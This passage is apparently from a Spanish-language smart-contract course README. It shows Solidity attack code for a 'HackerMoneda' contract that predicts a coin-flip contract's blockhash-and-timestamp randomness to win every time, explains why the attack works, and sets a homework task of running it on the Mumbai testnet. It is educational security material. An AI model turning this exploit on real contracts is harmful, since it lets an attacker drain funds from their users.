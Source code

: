 ```solidity
    function attack() public {
        uint256 randomNumber = uint256(
            keccak256(
                abi.encodePacked(
                    address(this),
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        );
        uint256 coinFlip = randomNumber / FACTOR;
        bool _guess = coinFlip == 1 ? true : false;

        coinFlipSC.flip{value: 1 ether}(_guess);
    }

    receive() external payable {}
}
```

1. Definimos la interface `IMoneda` que define el método `flip`. Con esta interface lograremos una comunicación intercontrato. Creamos una referencia al contrato `Moneda.sol` desde el constructor del contrato `HackerMoneda.sol` usando la interface `IMoneda`. Ahora podemos llamar al contrato `Moneda.sol` desde la variable `coinFlipSC`.
2. El método `attack()` ha replicado el cálculo de `randomNumber` haciendo uso de las mismas variables globales. Una sutil diferencia radica en `address(this)` en el método `attack()` vs `msg.sender` en el método `flip()`. Usamos `address(this)` porque en este caso será el contrato `HackerMoneda.sol` el que llamará a `Moneda.sol`. Es decir, el `msg.sender` en `flip()` tiene el mismo valor que `address(this)` en `attack()`.
3. Antes de terminar el método `attack()`, obtenemos el valor de `_guess`. Este valor es usado para llamar al método `flip()` de `Moneda.sol`. Dado que `_guess` fue calculado usando las mismas operaciones que en `flip()`, este valor siempre será el correcto.
4. Para recalcar. El método `attack()`  del contrato `HackerMoneda.sol` y `flip()` del contrato `Moneda.sol` son llamados en la misma transacción (e incluidos en el mismo bloque). Por lo tanto, ambos métodos comparten las mismas variables globales, lo cual permite el ataque.

## Tarea

Realizar esta tarea y guardar la información solicitada en este mismo README.md en tu local:

1. Vas a publicar el contrato `Moneda.sol` en la red Mumbai con las siguientes consideraciones:
   * El contrato `Moneda.sol` debe ser publicado con `2000 wei` o `2000` si lo harás desde Remix
   * En el método `flip`, cambia la validación en el `require` de `msg.value == 1 ether` a `msg.value == 1000`.
   * Hacia el final del método `flip`, cambia el premio de `...transfer(2 ether)` a `...transfer(2000)`.
2. Vas a publicar el contrato `HackerMoneda.sol` en la red Mumbai con las siguientes consideraciones:
   * En vez de enviar `1 ether`, solo envía `1000` al contrato `Moneda.sol` cuando se hace el llamado al método `flip()` desde el método `attack()`.
3. Ejecuta el método `attack()` del contrato `HackerMoneda.sol`. La operación debe ser exitosa y el contrato `HackerMoneda.sol` debería tener ahora un balance de `2000`
4. Copiar aquí el address del contrato  `Moneda.sol` en Mumbai: 0x5ABF2bb597Ad409C78d579b244324fceF08B9dEa
5. Copiar aquí el address del contrato  `HackerMoneda.sol` de Mumbai: 0xaf0B2BeB0fDC05Fe2802E46E3436899e9E9D85d4